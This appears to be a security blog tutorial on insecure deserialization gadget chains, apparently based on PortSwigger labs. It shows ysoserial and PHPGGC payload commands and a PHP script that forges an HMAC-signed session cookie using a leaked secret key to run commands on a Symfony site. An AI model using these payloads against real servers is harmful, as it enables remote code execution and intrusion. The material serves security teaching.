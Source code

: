 ```yaml
---
layout: post
title:  "Insecure Deserialization Part 2"
date:   2023-10-09 21:29:20 +0700
categories: jekyll update
usemathjax: true
tag:
  - tips
  - web application
  - insecure deserialization
image1:
  - /insecure-deserialization-2/img1.PNG
image2:
  - /insecure-deserialization-2/img2.PNG
image3:
  - /insecure-deserialization-2/img3.PNG
image4:
  - /insecure-deserialization-2/img4.PNG
image5:
  - /insecure-deserialization-2/img5.PNG
image6:
  - /insecure-deserialization-2/img6.PNG
image7:
  - /insecure-deserialization-2/img7.PNG
image8:
  - /insecure-deserialization-2/img8.PNG
image9:
  - /insecure-deserialization-2/img9.PNG
image10:
  - /insecure-deserialization-2/img10.PNG
---
```


Hello readers, welcome to part 2 of the series where we'll explore more about gadget chains.

### Gadget Chains

A "gadget" is a snippet of code that exists in the application that can help an attacker to achieve a particular goal. An individual gadget may not directly do anything harmful with user input. However, the attacker's goal might simply be to invoke a method that will pass their input into another gadget. By chaining multiple gadgets together in this way, an attacker can potentially pass their input into a dangerous "sink gadget", where it can cause maximum damage. 

#### ysoserial

One such tool for Java deserialization is ["ysoserial"](https://github.com/frohoff/ysoserial). This lets you choose one of the provided gadget chains for a library that you think the target application is using, then pass in a command that you want to execute. It then creates an appropriate serialized object based on the selected chain.

### Exploiting Java Deserialization with Apache Commons

Not all of the gadget chains in ysoserial enable you to run arbitrary code. Instead, they may be useful for other purposes. For example, you can use the following ones to help you quickly detect insecure deserialization on virtually any server:

  1. The `URLDNS` chain triggers a DNS lookup for a supplied URL. Most importantly, it does not rely on the target application using a specific vulnerable library and works in any known Java version.
  2. `JRMPClient` is another universal chain that you can use for initial detection. It causes the server to try establishing a TCP connection to the supplied IP address.

Payload:

Java version 16 and above:

```bash
java \
 --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED\
 --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED\
 --add-opens=java.base/sun.reflect.annotation=ALL-UNNAMED\
 -jar ./ysoserial.jar <payload> 'command'
```

  
Java version 15 and below:

```bash
java -jar ysoserial-all.jar <payload> 'command' | base64
```

Observe that the session cookie contains a serialized Java object

<figure>
<img src="{{ page.image1 }}" alt="">
<figcaption>Fig 1. Session Cookie</figcaption>
</figure>

Generates a Base64-encoded serialized object containing your payload

<figure>
<img src="{{ page.image2 }}" alt="">
<figcaption>Fig 2. Decode and Generate Payload</figcaption>
</figure>

Replace your session cookie with the malicious one you just created. Select the entire cookie and then URL-encode it

<figure>
<img src="{{ page.image3 }}" alt="">
<figcaption>Fig 3. Resend Encoded Payload</figcaption>
</figure>


### PHP Generic Gadget Chains

Most languages that frequently suffer from insecure deserialization vulnerabilities have equivalent proof-of-concept tools. For example, for PHP-based sites you can use "PHP Generic Gadget Chains" [(PHPGGC)](https://github.com/ambionics/phpggc).


Notice that the token is actually a serialized PHP object, signed with a SHA-1 HMAC hash

<figure>
<img src="{{ page.image4 }}" alt="">
<figcaption>Fig 4. Session Cookie</figcaption>
</figure>

<figure>
<img src="{{ page.image5 }}" alt="">
<figcaption>Fig 5. Decoded token</figcaption>
</figure>

Notice that:

  1. The error message reveals that the website is using the Symfony 4.3.6 framework.
  2. The /cgi-bin/phpinfo.php debug file contains a secret_key.

<figure>
<img src="{{ page.image6 }}" alt="">
<figcaption>Fig 6. Exposed Framework</figcaption>
</figure>

<figure>
<img src="{{ page.image7 }}" alt="">
<figcaption>Fig 7. Secret Key</figcaption>
</figure>

Payload:

```bash
./phpggc <payload> exec 'command' | base64
```

<figure>
<img src="{{ page.image8 }}" alt="">
<figcaption>Fig 8. Creating Payload</figcaption>
</figure>

You now need to construct a valid cookie containing this malicious object and sign it correctly using the secret key you obtained earlier. You can use the following PHP script to do this.

```PHP
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

<figure>
<img src="{{ page.image9 }}" alt="">
<figcaption>Fig 9. Constructing Cookie</figcaption>
</figure>

Replace your session cookie with the malicious one you just created, then send the request to execture your command

<figure>
<img src="{{ page.image10 }}" alt="">
<figcaption>Fig 10. Resend Encoded Payload</figcaption>
</figure>









IB: PortSwigger
